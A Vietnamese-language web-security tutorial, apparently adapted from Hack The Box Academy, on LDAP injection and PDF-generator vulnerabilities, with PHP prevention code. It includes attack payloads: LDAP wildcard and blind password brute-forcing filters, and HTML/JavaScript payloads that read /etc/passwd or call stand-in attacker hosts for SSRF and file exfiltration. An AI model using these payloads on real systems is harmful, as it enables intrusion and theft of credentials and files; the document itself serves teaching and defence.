Exfiltration Dữ Liệu và Blind Exploitation với LDAP Injection

Trong phần này, chúng ta sẽ tìm hiểu về cách khai thác lỗ hổng LDAP Injection để exfiltrate dữ liệu và thực hiện tấn công blind, tức là khai thác dữ liệu mà không cần phải hiển thị kết quả của truy vấn.

Exfiltration Dữ Liệu
Nếu ứng dụng web hiển thị kết quả tìm kiếm cho người dùng, việc exfiltrate dữ liệu trở nên đơn giản khi có thể tiêm ký tự wildcard vào các trường tìm kiếm. Ví dụ:

Tiêm Wildcard vào Tên Người Dùng

Bộ lọc tìm kiếm: (&(uid=admin)(objectClass=account))
Khi tiêm wildcard vào uid: (&(uid=*)(objectClass=account))
Điều này sẽ hiển thị thông tin của tất cả tài khoản trong cơ sở dữ liệu LDAP.
Tiêm Wildcard vào ObjectClass

Bộ lọc tìm kiếm: (|(objectClass=organization)(objectClass=device))
Sau khi tiêm wildcard vào objectClass: (|(objectClass=organization)(objectClass=*))
Kết quả là tất cả các mục trong LDAP sẽ được trả về, giúp thực hiện việc exfiltration dữ liệu.
Blind Exploitation (Tấn Công Blind)
Nếu ứng dụng không hiển thị kết quả tìm kiếm, ta có thể sử dụng phương pháp "blind" để exfiltrate dữ liệu thông qua sự khác biệt trong phản hồi từ web ứng dụng, giống như cách thực hiện blind SQL Injection.

Tấn công Bằng Cách Kiểm Tra Mật Khẩu

Ví dụ, nếu sử dụng bộ lọc như: (&(uid=htb-stdnt)(password=p@ssw0rd)), chúng ta có thể thử brute-force từng ký tự của mật khẩu.
Ví dụ, tiêm vào mật khẩu a* để kiểm tra xem mật khẩu có bắt đầu bằng "a" không. Nếu không, ta thử với b*, v.v.
Tiến hành như vậy cho đến khi toàn bộ mật khẩu được brute-forced thành công. Quá trình này có thể thực hiện cho tất cả các ký tự trong mật khẩu.
Exfiltrate Dữ Liệu Từ Các Thuộc Tính Khác

Ta cũng có thể exfiltrate dữ liệu từ các thuộc tính khác, chẳng hạn như thuộc tính description. Ví dụ, tiêm vào tên người dùng như sau: (&(uid=htb-stdnt)(|(description=*)(password=invalid))).
Kết quả là, nếu mật khẩu sai, điều kiện cho thuộc tính description sẽ được kiểm tra, cho phép ta brute-force từng ký tự của thuộc tính này.
Exfiltrate Dữ Liệu Các Thuộc Tính Khác
Nếu muốn xác định các thuộc tính có tồn tại trong bản ghi, ta có thể tiêm wildcard và xem phản hồi từ ứng dụng:
Thuộc tính hợp lệ: ứng dụng trả về kết quả tích cực.
Thuộc tính không hợp lệ: ứng dụng trả về kết quả tiêu cực.
Khuyến Cáo
Trong các cuộc tấn công blind LDAP injection, việc viết một script tự động sẽ giúp đẩy nhanh quá trình exfiltrate dữ liệu và brute-force các thuộc tính của người dùng.
Kết Luận
Blind LDAP injection cho phép tấn công viên khai thác thông tin từ LDAP mà không cần phải hiển thị trực tiếp kết quả truy vấn. Các phương pháp khai thác này có thể sử dụng wildcard hoặc tiêm điều kiện OR để truy xuất dữ liệu, ngay cả khi kết quả không được hiển thị cho người dùng.

Phòng Ngừa LDAP Injection

Sau khi đã thảo luận về các cách khai thác lỗ hổng LDAP Injection, chúng ta sẽ đi vào các biện pháp phòng ngừa để bảo vệ ứng dụng khỏi những nguy cơ này.

Các Biện Pháp Phòng Ngừa LDAP Injection
Escape Các Ký Tự Đặc Biệt
LDAP injection có thể xảy ra nếu dữ liệu đầu vào của người dùng không được xử lý đúng cách. Để phòng ngừa, chúng ta cần escape các ký tự đặc biệt trong LDAP như:

( (dấu mở ngoặc) → \28
) (dấu đóng ngoặc) → \29
* (dấu sao) → \2a
** (dấu gạch chéo ngược) → \5c
null byte → \00
Việc này giúp tránh các ký tự có thể được sử dụng để thay đổi cấu trúc của bộ lọc LDAP.

Ví Dụ Cụ Thể trong PHP Trong PHP, chúng ta có thể sử dụng hàm ldap_escape để escape dữ liệu đầu vào một cách tự động và an toàn. Dưới đây là ví dụ về cách sử dụng hàm này để phòng ngừa LDAP injection:

Mã không được bảo vệ:

php
Sao chép mã
// kết nối LDAP
const LDAP_HOST = "localhost";
const LDAP_PORT = 389;
const LDAP_DC = "dc=example,dc=htb";
const LDAP_DN = "cn=ldapuser,dc=example,dc=htb";
const LDAP_PASS = "ldappassword";

// kết nối tới server
$conn = ldap_connect(LDAP_HOST, LDAP_PORT);
if (!$conn) {
    exit('Kết nối LDAP thất bại');
}

// thao tác bind
ldap_set_option($conn, LDAP_OPT_PROTOCOL_VERSION, 3);
$bind = ldap_bind($conn, LDAP_DN, LDAP_PASS);
if (!$bind) {
    exit('Thao tác bind LDAP thất bại');
}

// tìm kiếm
$filter = '(&(cn=' . $_POST['username'] . ')(userPassword=' . $_POST['password'] . '))';
$search = ldap_search($conn, LDAP_DC, $filter);
$entries = ldap_get_entries($conn, $search);
if ($entries['count'] > 0) {
    // đăng nhập thành công
    <SNIP>
} else {
    // đăng nhập thất bại
    <SNIP>
}
Mã đã bảo vệ (Sử dụng ldap_escape):

php
Sao chép mã
// kết nối LDAP
const LDAP_HOST = "localhost";
const LDAP_PORT = 389;
const LDAP_DC = "dc=example,dc=htb";
const LDAP_DN = "cn=ldapuser,dc=example,dc=htb";
const LDAP_PASS = "ldappassword";

// kết nối tới server
$conn = ldap_connect(LDAP_HOST, LDAP_PORT);
if (!$conn) {
    exit('Kết nối LDAP thất bại');
}

// thao tác bind
ldap_set_option($conn, LDAP_OPT_PROTOCOL_VERSION, 3);
$bind = ldap_bind($conn, LDAP_DN, LDAP_PASS);
if (!$bind) {
    exit('Thao tác bind LDAP thất bại');
}

// tìm kiếm (với escape dữ liệu đầu vào)
$filter = '(&(cn=' . ldap_escape($_POST['username']) . ')(userPassword=' . ldap_escape($_POST['password']) . '))';
$search = ldap_search($conn, LDAP_DC, $filter);
$entries = ldap_get_entries($conn, $search);
if ($entries['count'] > 0) {
    // đăng nhập thành công
    <SNIP>
} else {
    // đăng nhập thất bại
    <SNIP>
}
Best Practices (Thực Hành Tốt) Bên cạnh việc escape đầu vào, chúng ta có thể áp dụng các thực hành tốt khác để bảo mật LDAP:

Giới Hạn Quyền Truy Cập: Tài khoản được sử dụng để bind tới LDAP server chỉ nên có quyền hạn tối thiểu cần thiết để thực hiện các thao tác tìm kiếm, tránh việc kẻ tấn công có thể truy xuất dữ liệu nhạy cảm nếu lỗ hổng xảy ra.

Sử Dụng Bind với Thông Tin Người Dùng: Thay vì sử dụng LDAP search để xác thực người dùng, ta có thể sử dụng bind với thông tin người dùng (username và password). Điều này giúp giảm thiểu khả năng LDAP injection vì không có bộ lọc tìm kiếm có thể bị tấn công.

Ví Dụ Mã Bảo Mật với Bind Thông Tin Người Dùng:

php
Sao chép mã
// kết nối LDAP
const LDAP_HOST = "localhost";
const LDAP_PORT = 389;
const LDAP_DC = "dc=example,dc=htb";

// thông tin người dùng
$dn = "cn=" . ldap_escape($_POST['username'], "", LDAP_ESCAPE_DN) . ",dc=example,dc=htb";
$pw = $_POST['password'];

// kết nối tới server
$conn = ldap_connect(LDAP_HOST, LDAP_PORT);
if (!$conn) {
    exit('Kết nối LDAP thất bại');
}

// thao tác bind
ldap_set_option($conn, LDAP_OPT_PROTOCOL_VERSION, 3);
$bind = ldap_bind($conn, $dn, $pw);
if ($bind) {
    // đăng nhập thành công
    <SNIP>
} else {
    // đăng nhập thất bại
    <SNIP>
}
Tắt Anonymous Bind Anonymous Bind (kết nối không xác thực) nên được tắt trên server LDAP để đảm bảo rằng chỉ người dùng đã xác thực mới có thể thực hiện các thao tác với LDAP. Điều này sẽ làm giảm nguy cơ bị tấn công qua các lỗ hổng LDAP injection.

Kết Luận
Phòng ngừa LDAP injection có thể thực hiện qua việc escape đúng các ký tự đặc biệt trong các truy vấn LDAP, sử dụng bind với thông tin người dùng thay vì sử dụng các truy vấn tìm kiếm, và giới hạn quyền truy cập của tài khoản LDAP. Những biện pháp này sẽ giúp bảo vệ ứng dụng web khỏi những lỗ hổng LDAP injection nguy hiểm.

Introduction to PDF Generation Vulnerabilities
Nhiều ứng dụng web cung cấp tính năng tạo PDF, như hóa đơn hoặc báo cáo, trong đó chứa thông tin động từ người dùng. Trong các phần tiếp theo, chúng ta sẽ thảo luận về các cấu hình sai và lỗi có thể dẫn đến lỗ hổng bảo mật do HTML injection trong đầu vào cho các thư viện tạo PDF.

PDF Generation
Portable Document Format (PDF) là một định dạng tệp được thiết kế để cung cấp trình bày tài liệu độc lập với nền tảng. Vì PDF được sử dụng rộng rãi trong nhiều ứng dụng, việc tạo PDF là một tính năng phổ biến trong các ứng dụng web. Để kích hoạt tính năng này, các ứng dụng web sử dụng các thư viện hoặc plugin tạo PDF.

Tuy nhiên, các cấu hình sai, thiếu cấu hình đúng, và các phiên bản thư viện cũ có thể mở ra lỗ hổng bảo mật, chủ yếu là do người dùng nhập các dữ liệu độc hại mà không được kiểm tra và làm sạch đúng cách.

Các thư viện tạo PDF phổ biến mà các ứng dụng web thường sử dụng bao gồm:

TCPDF
html2pdf
mPDF
DomPDF
PDFKit
wkhtmltopdf
PD4ML
Vì ứng dụng web cần phải thiết kế giao diện của các tệp PDF cuối cùng, các thư viện này chấp nhận mã HTML làm đầu vào và sử dụng nó để tạo ra tệp PDF. Quá trình này bao gồm việc phân tích mã HTML, hiển thị nó và tạo PDF.

Ví dụ: wkhtmltopdf
wkhtmltopdf là một công cụ tạo PDF từ HTML, và nó có thể được tải xuống dưới dạng tệp nhị phân đã biên dịch sẵn. Lưu ý rằng có một cảnh báo bảo mật ở đầu trang của công cụ này, chỉ ra rằng sử dụng wkhtmltopdf với HTML không đáng tin cậy có thể dẫn đến việc chiếm quyền hoàn toàn trên máy chủ.

Cách sử dụng wkhtmltopdf:

Sau khi tải xuống wkhtmltopdf, bạn có thể cài đặt nó trên các bản phân phối Linux dựa trên Debian bằng cách chạy lệnh:
bash
Sao chép mã
sudo dpkg -i wkhtmltox_0.12.6.1-2.bullseye_amd64.deb
Bạn có thể chạy công cụ này với tùy chọn -h để hiển thị thông tin trợ giúp:
bash
Sao chép mã
wkhtmltopdf -h
Khi cung cấp URL cho wkhtmltopdf, nó sẽ tự động tải trang web và chuyển đổi nó thành PDF:
bash
Sao chép mã
wkhtmltopdf https://academy.hackthebox.com/ htb.pdf
Sau đó, bạn sẽ có một tệp PDF với nội dung trang web.
Ngoài ra, bạn có thể cung cấp tệp HTML địa phương để tạo ra một tệp PDF tương tự với:

bash
Sao chép mã
wkhtmltopdf ./index.html test.pdf
Phân tích Tệp PDF
Để xác định thư viện tạo PDF mà một ứng dụng web sử dụng, bạn có thể phân tích siêu dữ liệu của tệp PDF đã tạo. Các thư viện tạo PDF thường thêm thông tin vào các trường creator và producer trong siêu dữ liệu của PDF. Do đó, bạn chỉ cần có tệp PDF được tạo ra từ ứng dụng web và chạy công cụ ExifTool để hiển thị siêu dữ liệu.

Ví dụ sử dụng ExifTool:

Cài đặt ExifTool trên hệ thống:
bash
Sao chép mã
apt install libimage-exiftool-perl
Sử dụng ExifTool để hiển thị thông tin siêu dữ liệu của tệp PDF:
bash
Sao chép mã
exiftool invoice.pdf
Thông tin từ ExifTool sẽ cung cấp chi tiết về công cụ tạo PDF và phiên bản của nó, chẳng hạn như:

yaml
Sao chép mã
Creator                         : wkhtmltopdf 0.12.6.1
Producer                        : Qt 4.8.7
Bạn cũng có thể sử dụng công cụ pdfinfo để đạt được kết quả tương tự:

bash
Sao chép mã
pdfinfo invoice.pdf
Các vấn đề bảo mật tiềm ẩn
HTML Injection: Nếu ứng dụng web không xử lý đúng đầu vào HTML từ người dùng, người dùng có thể chèn mã JavaScript hoặc các đoạn mã độc hại khác vào tệp PDF, tạo cơ hội cho tấn công XSS hoặc tấn công khai thác lỗ hổng bảo mật của máy chủ.

Cross-Site Scripting (XSS): Việc không kiểm tra đầu vào HTML/JS có thể dẫn đến việc thực thi mã JavaScript độc hại khi mở tệp PDF trong trình duyệt, dẫn đến XSS.

Cấu hình sai: Sử dụng thư viện cũ hoặc không cấu hình đúng có thể tạo ra lỗ hổng bảo mật nghiêm trọng. Việc thiếu các biện pháp bảo vệ đầu vào và không sử dụng các thư viện được cập nhật có thể dẫn đến tấn công chiếm quyền điều khiển.

Kết luận
Để đảm bảo an toàn khi sử dụng tính năng tạo PDF trong các ứng dụng web, rất quan trọng phải kiểm tra và làm sạch đầu vào HTML/JS từ người dùng, sử dụng các phiên bản thư viện mới nhất, và tắt JavaScript trong các tệp PDF nếu không cần thiết. Việc phân tích các tệp PDF tạo ra từ ứng dụng giúp xác định loại thư viện và phiên bản sử dụng, giúp hướng tới việc xác định các lỗ hổng bảo mật tiềm ẩn.

Khai thác lỗ hổng trong thư viện tạo PDF

Khi thảo luận về cách và lý do tại sao các ứng dụng web sử dụng các thư viện tạo PDF, chúng ta sẽ tìm hiểu cách khai thác các lỗ hổng phát sinh từ chúng và các cấu hình sai gây ra các lỗ hổng này. Tất cả các lỗ hổng này đều yêu cầu người dùng cung cấp nội dung được chèn vào đầu vào HTML của trình tạo PDF.

1. Thực thi mã JavaScript
Lỗ hổng đầu tiên chúng ta sẽ khám phá là tiêm mã JavaScript, vì việc thực thi mã JavaScript được tiêm vào có thể mở ra các vector tấn công tiếp theo. Khi thư viện tạo PDF diễn giải đầu vào HTML, nó có thể thực thi mã JavaScript đã tiêm. Hơn nữa, vì thư viện tạo PDF chạy trên máy chủ, payload cũng sẽ được thực thi trên máy chủ, đó là lý do tại sao lỗ hổng này còn được gọi là Server-Side XSS.

Khai thác:

Nếu ứng dụng web cho phép chèn HTML vào nội dung (ví dụ: các ghi chú), mã JavaScript có thể được tiêm vào và thực thi.
Sau khi tạo PDF, ta có thể thấy rằng mã JavaScript đã được thực thi trên máy chủ, gây ra việc tiết lộ thông tin như đường dẫn của tệp tin trong hệ thống của máy chủ.
Ví dụ Payload:

html
Sao chép mã
<script>
  alert("Test1");
</script>
Kết quả là, chúng ta sẽ thấy chuỗi "test1" trong tệp PDF, cho thấy máy chủ đã thực thi mã JavaScript của chúng ta.

2. Lỗ hổng SSRF (Server-Side Request Forgery)
Một trong những lỗ hổng phổ biến khi kết hợp với việc tạo PDF là SSRF. Vì các tài liệu HTML thường tải các tài nguyên như stylesheet hoặc hình ảnh từ các nguồn bên ngoài, việc hiển thị một tài liệu HTML yêu cầu máy chủ phải gửi yêu cầu đến các nguồn bên ngoài đó. Khi chúng ta tiêm mã HTML tùy ý vào đầu vào của trình tạo PDF, chúng ta có thể buộc máy chủ gửi yêu cầu HTTP đến bất kỳ URL nào, bao gồm cả các ứng dụng web nội bộ.

Khai thác:

Chèn các thẻ HTML như <img> hoặc <link> trỏ tới các URL do chúng ta kiểm soát có thể gây ra các yêu cầu HTTP từ máy chủ đến các điểm cuối nội bộ.
Ví dụ Payload:

html
Sao chép mã
<img src="http://maliciousdomain.com/ssrftest1" />
Khi tạo PDF, chúng ta sẽ thấy rằng máy chủ đã gửi một yêu cầu HTTP đến URL của chúng ta. Nếu misconfiguration xảy ra, chúng ta có thể dễ dàng khai thác SSRF để lấy dữ liệu từ các API nội bộ.

3. Lỗ hổng LFI (Local File Inclusion)
Một lỗ hổng mạnh mẽ khác mà chúng ta có thể khai thác là LFI. Các thẻ HTML có thể được chèn để đọc các tệp tin cục bộ trên máy chủ. Đặc biệt, nếu máy chủ thực thi mã JavaScript tiêm vào, chúng ta có thể sử dụng XMLHttpRequest với giao thức file:// để đọc các tệp tin trên hệ thống.

Khai thác với JavaScript:

html
Sao chép mã
<script>
  var x = new XMLHttpRequest();
  x.onload = function() {
    document.write(this.responseText);
  };
  x.open("GET", "file:///etc/passwd");
  x.send();
</script>
Kết quả là, nội dung của tệp passwd sẽ được hiển thị trong tệp PDF.

Khai thác mà không cần JavaScript: Nếu máy chủ không thực thi JavaScript, chúng ta có thể thử các thẻ như <iframe> hoặc <object> để nhúng tệp cục bộ vào PDF. Tuy nhiên, nếu các phương pháp này không hoạt động, chúng ta có thể sử dụng một kỹ thuật khác để giả mạo yêu cầu đến tệp tin cục bộ thông qua máy chủ của chúng ta, bằng cách tạo một tệp redirector.

Ví dụ Payload:

html
Sao chép mã
<iframe src="http://attacker.com/redirector.php?url=%2fetc%2fpasswd"></iframe>
Khi PDF được tạo, tệp passwd có thể bị rò rỉ nếu thư viện PDF cho phép chèn các tài nguyên từ bên ngoài.

4. Annotations và Attachments
Một tính năng khác của các tệp PDF là annotations và attachments, có thể được sử dụng để rò rỉ tệp tin cục bộ trên máy chủ. Một số thư viện tạo PDF hỗ trợ tính năng này, ví dụ như mPDF và PD4ML. Chúng ta có thể sử dụng các payload như sau để thêm tệp vào dưới dạng đính kèm trong PDF.

Ví dụ Payload (mPDF):

html
Sao chép mã
<annotation file="/etc/passwd" content="/etc/passwd" icon="Graph" title="LFI" />
Khi mở tệp PDF, người dùng có thể nhấp vào annotation và tải về tệp /etc/passwd.

Kết luận
Việc khai thác lỗ hổng trong thư viện tạo PDF có thể gây ra nhiều mối đe dọa nghiêm trọng như XSS, SSRF, LFI và rò rỉ dữ liệu từ các API hoặc tệp tin cục bộ trên máy chủ. Các biện pháp phòng ngừa cần được thực hiện bao gồm việc kiểm tra và kiểm soát chặt chẽ dữ liệu người dùng đầu vào, đồng thời đảm bảo rằng các thư viện tạo PDF không thực thi mã độc hại và không cho phép tải các tệp tin không an toàn.

Để ngăn ngừa các lỗ hổng trong thư viện tạo PDF, cần thực hiện một số biện pháp bảo mật quan trọng để giảm thiểu nguy cơ bị tấn công. Dưới đây là một số phương pháp và cấu hình cần thiết để đảm bảo an toàn cho hệ thống:

1. Cấu hình không an toàn
Nhiều lỗ hổng bảo mật liên quan đến việc cấu hình không đúng các thư viện tạo PDF. Các cấu hình mặc định của nhiều thư viện có thể không đủ bảo mật, dẫn đến các vấn đề như SSRF, XSS hoặc RCE. Do đó, việc đọc tài liệu hướng dẫn và cấu hình đúng thư viện là rất quan trọng. Ví dụ, thư viện DomPDF có một tùy chọn cấu hình gọi là enable_remote, có thể tắt để ngăn chặn các lỗ hổng SSRF.

2. Vô hiệu hóa thực thi mã JavaScript và PHP
Một số thư viện hỗ trợ thực thi mã JavaScript hoặc PHP để tạo PDF động. Tuy nhiên, đây là một lỗ hổng bảo mật nghiêm trọng nếu bị lạm dụng. Cần đảm bảo rằng thư viện không cho phép thực thi mã PHP hoặc JavaScript, ví dụ như việc vô hiệu hóa tùy chọn isPhpEnabled trong DomPDF.

3. Mã hóa HTML Entity
Một trong những cách hiệu quả để ngăn chặn việc chèn mã HTML độc hại vào trong dữ liệu người dùng là mã hóa các ký tự HTML bằng cách sử dụng các hàm như htmlentities trong PHP. Hàm này sẽ chuyển các ký tự đặc biệt như < thành &lt;, > thành &gt;, giúp ngăn chặn việc chèn các thẻ HTML và mã JavaScript không mong muốn.

4. Giới hạn quyền truy cập vào tài nguyên bên ngoài và tệp tin cục bộ
Tài nguyên bên ngoài: Hạn chế việc truy cập vào tài nguyên bên ngoài (như hình ảnh và bảng mẫu) là cách tốt nhất để tránh SSRF. Nếu tài nguyên bên ngoài phải được sử dụng, một cách tiếp cận an toàn là tạo danh sách trắng các địa chỉ IP hoặc tên miền có thể truy cập.
Tệp tin cục bộ: Ngăn cấm truy cập vào các tệp tin cục bộ của hệ thống (ví dụ: /etc/passwd) là điều cần thiết để ngăn chặn các lỗ hổng Local File Inclusion (LFI).
5. Lưu trữ tài nguyên cục bộ
Để ngăn ngừa các lỗ hổng SSRF, nếu các tài nguyên bên ngoài cần được sử dụng (như hình ảnh, stylesheet), bạn có thể tải chúng xuống và lưu trữ cục bộ trước khi xử lý. Điều này giúp ngăn chặn các yêu cầu HTTP từ máy chủ web đến các tài nguyên bên ngoài, từ đó giảm thiểu khả năng bị tấn công.

6. Kiểm tra cấu hình thư viện tạo PDF
Luôn đảm bảo rằng bạn đã cấu hình đúng các tùy chọn bảo mật trong thư viện PDF bạn đang sử dụng. Đọc kỹ tài liệu hướng dẫn và áp dụng các phương pháp bảo mật của thư viện để giảm thiểu các nguy cơ tiềm ẩn. Các thư viện như mPDF, PD4ML và DomPDF có các tùy chọn cấu hình bảo mật mà bạn cần kiểm tra và vô hiệu hóa các tính năng nguy hiểm như hỗ trợ JavaScript hoặc PHP.

7. Các biện pháp bảo vệ bổ sung
Chạy các ứng dụng web trong môi trường hạn chế: Đảm bảo ứng dụng chạy trong các môi trường có hạn chế quyền truy cập, chẳng hạn như các quyền đọc/ghi vào các thư mục và tệp tin quan trọng trên máy chủ.
Kiểm tra thường xuyên: Định kỳ kiểm tra các ứng dụng web của bạn bằng các công cụ kiểm tra bảo mật và đảm bảo rằng mọi lỗ hổng bảo mật tiềm ẩn đều được phát hiện và vá lỗi.
8. Ví dụ thực tế: Kiểm tra bảo mật cho e-Shop
Khi thực hiện một cuộc kiểm tra bảo mật đối với một hệ thống thương mại điện tử (e-Shop), bạn có thể thử nghiệm các kỹ thuật khai thác lỗ hổng đã học, bao gồm việc chèn mã HTML độc hại vào các biểu mẫu nhập liệu, kiểm tra khả năng thực thi mã JavaScript trên server, hoặc xác minh các cấu hình của thư viện tạo PDF có dễ bị tấn công không. Cụ thể:

Kiểm tra XSS: Kiểm tra xem ứng dụng có thể thực thi mã JavaScript từ dữ liệu người dùng không.
Kiểm tra SSRF: Xác minh xem ứng dụng có thể gửi yêu cầu HTTP đến các tài nguyên không đáng tin cậy hoặc các dịch vụ nội bộ không mong muốn không.
Kiểm tra LFI: Xác nhận rằng ứng dụng không cho phép người dùng truy cập vào các tệp tin quan trọng trên hệ thống.
Tóm lại
Để ngăn ngừa các lỗ hổng bảo mật trong quá trình tạo PDF, bạn cần cấu hình đúng các thư viện tạo PDF, mã hóa các đầu vào của người dùng và kiểm tra kỹ các khả năng cho phép thực thi mã JavaScript hoặc PHP. Việc quản lý tài nguyên và bảo mật quyền truy cập vào các tệp tin nội bộ của máy chủ cũng rất quan trọng trong việc bảo vệ ứng dụng khỏi các tấn công tiềm ẩn.












